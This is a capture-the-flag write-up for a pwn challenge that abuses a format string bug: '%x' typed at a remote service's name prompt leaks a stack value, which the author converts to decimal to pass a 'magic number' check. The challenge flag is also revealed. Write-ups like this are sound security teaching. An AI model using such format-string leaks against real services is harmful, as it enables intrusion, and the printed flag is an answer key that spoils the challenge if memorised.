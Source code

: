 # From C to Shining C (100)
#### pwn - [Virginia TSA Technosphere CTF](../main.md)

## Challenge description:
> The elves have mistakenly put a [string format vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) that might reveal a flag in this program.
> 
> Download file: forgot to save file :(

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x fromctoshiningc`, running the binary asks for a name and a magic number. 

```
$ ./fromctoshiningc
What is your name? 
```

We can leak data from the stack using %x, which is returned to us.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
```

Reverse engineering the binary reveals that converting the provided hex address to decimal allows us to access its content. We can try this on the server for the real flag.

```
$ nc 0.cloud.chals.io 28281
What is your name? 
%x
This is a really important piece of information: 28757b2

Enter the magic number: 
42424242
*************
```

<details> 
    <summary>Flag</summary>
flag{cnoevil}
</details>